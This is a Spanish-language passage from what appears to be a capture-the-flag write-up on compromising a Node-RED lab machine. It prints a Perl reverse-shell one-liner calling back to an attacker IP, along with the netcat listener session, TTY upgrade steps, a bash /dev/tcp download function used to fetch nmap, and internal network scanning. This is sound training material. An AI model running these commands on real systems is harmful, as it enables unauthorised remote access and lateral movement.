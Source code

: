 Para hacer un tratamiento de la TTY, me envío otra consola a través de perl

```null
perl -e 'use Socket;$i="10.10.16.9";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.94] 37430
/bin/sh: 0: can't access tty; job control turned off
# script /dev/null -c bash
root@nodered:/node-red# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
root@nodered:/node-red# export TERM=xterm
root@nodered:/node-red# export SHELL=bash
root@nodered:/node-red# stty rows 55 columns 209
```

Tengo asignadas dos interfaces

```null
root@nodered:/node-red# hostname -I
172.18.0.2 172.19.0.4
```

Subo un binario estático de ```nmap``` para aplicar HostDiscovery. Como la máquina no tiene ```curl``` ni ```wget```, le añado una función que se encargue de simularlo

```null
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

```null
root@nodered:/tmp# __curl http:://10.10.16.9/nmap > nmap
```

```null
root@nodered:/tmp# ./nmap --min-rate 5000 172.18.0.1/24 172.19.0.1/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-03-09 07:32 UTC
Unable to find nmap-services!  Resorting to /etc/services
Unable to open /etc/services for reading service information
QUITTING!
root@nodered:/tmp# nano /etc/services
root@nodered:/tmp# ./nmap --min-rate 5000 172.18.0.1/24 172.19.0.1/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-03-09 07:33 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.18.0.1
```